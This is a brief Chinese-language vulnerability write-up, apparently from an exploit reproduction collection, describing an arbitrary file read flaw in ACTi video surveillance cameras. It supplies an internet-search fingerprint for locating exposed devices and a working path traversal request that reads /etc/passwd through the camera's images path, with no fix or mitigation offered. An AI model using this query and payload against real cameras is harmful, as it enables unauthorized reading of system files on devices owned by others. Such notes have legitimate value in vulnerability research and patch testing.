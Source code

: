 # ACTI 视频监控 images 任意文件读取漏洞

## 漏洞描述

ACTI 视频监控 存在任意文件读取漏洞

## 漏洞影响

```
ACTI摄像头
```

## 网络测绘

```
app="ACTi-视频监控"
```

## 漏洞复现

登录页面如下

![](./images/202202140926386.png)

使用Burp抓包

```plain
/images/../../../../../../../../etc/passwd
```

![](./images/202202140926873.png)
